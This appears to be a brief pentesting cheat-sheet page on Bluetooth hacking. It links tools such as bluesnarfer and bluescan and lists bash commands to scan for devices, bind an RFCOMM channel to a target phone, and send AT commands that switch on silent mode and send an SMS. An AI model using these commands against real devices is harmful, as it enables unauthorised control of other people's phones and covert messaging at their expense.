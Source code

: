 # 🫐 Bluetooth

{% embed url="https://github.com/kimbo/bluesnarfer" %}
{% embed url="https://github.com/zedxpace/bluetooth-hacking-" %} Bluetooth Hacking {% endembed %}
```bash
# scan peripherals
service bluetooth start
hcitool scan
# or
bluetoothctl scan on

# connect
rfcomm bind 0 $mac $channel_nb
rfcomm bind 0 $mac 6
# connect to the peripheral on channel 6

# AT terminal 
AT*ESIL=1 # activates silence mode
AT+CMGS="+336875648" # sends SMS

```

{% embed url="https://github.com/fO-000/bluescan" %} 
